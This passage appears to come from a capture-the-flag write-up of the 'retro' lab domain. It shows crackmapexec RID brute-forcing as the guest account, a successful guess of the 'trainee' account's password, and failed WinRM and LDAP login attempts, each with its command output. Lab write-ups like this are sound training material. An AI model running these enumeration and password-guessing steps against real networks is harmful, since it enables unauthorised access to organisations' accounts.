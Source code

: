 The admins apparently created one account for all trainees. Let's enumerate the account name by trying to brute force RIDs with `crackmapexec`.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'guest' -p '' --rid-brute
SMB         10.10.106.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112   445    DC               [+] retro.vl\guest: 
SMB         10.10.106.112   445    DC               [+] Brute forcing RIDs
.
.
.
SMB         10.10.106.112   445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.106.112   445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.106.112   445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.106.112   445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.10.106.112   445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.106.112   445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.106.112   445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.106.112   445    DC               1109: RETRO\tblack (SidTypeUser)
```

We can see that there indeed exists a domain account named `trainee`. What we have to do now is to find a suitable password. We have to keep in mind the message `some of you seemed to struggle with remembering strong and unique passwords`. We can guess that this password will not be very strong and is probably easy to guess. Let's try something very basic such as username == password and if that fails we will attempt to create a wordlist.

```
➜  retro crackmapexec smb 10.10.106.112 -u 'trainee' -p 'trainee'
SMB         10.10.106.112      445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.106.112      445    DC               [+] retro.vl\Trainee:trainee
```

We can see that our first guess was correct and we get a successful login!

## Authenticated enumeration with user trainee

### Failing to get shell

Now that we own credentials to the `trainee` user, we have to figure out how to continue. Since there are LDAP and WINRM ports opened we can try them both.

```
➜  retro crackmapexec winrm 10.10.106.112 -u 'Trainee' -p 'trainee'
SMB         10.10.106.112      5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:retro.vl)
HTTP        10.10.106.112      5985   DC               [*] http://10.10.106.112:5985/wsman
WINRM       10.10.106.112      5985   DC               [-] retro.vl\Trainee:trainee

➜  retro crackmapexec ldap 10.10.106.112 -u 'Trainee' -p 'trainee'        
SMB         10.10.106.112      445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
LDAP        10.10.106.112      445    DC               [-] retro.vl\Trainee:trainee Error connecting to the domain, are you sure LDAP service is running on the target ?
```
